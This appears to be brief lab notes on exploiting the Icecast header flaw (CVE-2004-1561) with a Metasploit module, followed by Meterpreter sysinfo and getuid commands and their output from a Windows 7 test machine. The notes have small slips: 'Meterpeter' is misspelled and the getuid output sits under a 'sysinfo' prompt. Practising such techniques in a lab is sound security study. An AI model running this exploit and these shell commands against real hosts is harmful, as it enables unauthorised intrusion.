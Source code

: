 # Commands
CVE-2004.1561 - exploit = exploit/windows/http/icecast_header
### Meterpeter shell

++sys info++ - System info 

Output

meterpreter > sysinfo*
Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows*

++getuid++ - Shows server username and active users

Output
meterpreter > sysinfo
*Server username: Dark-PC\Dark*

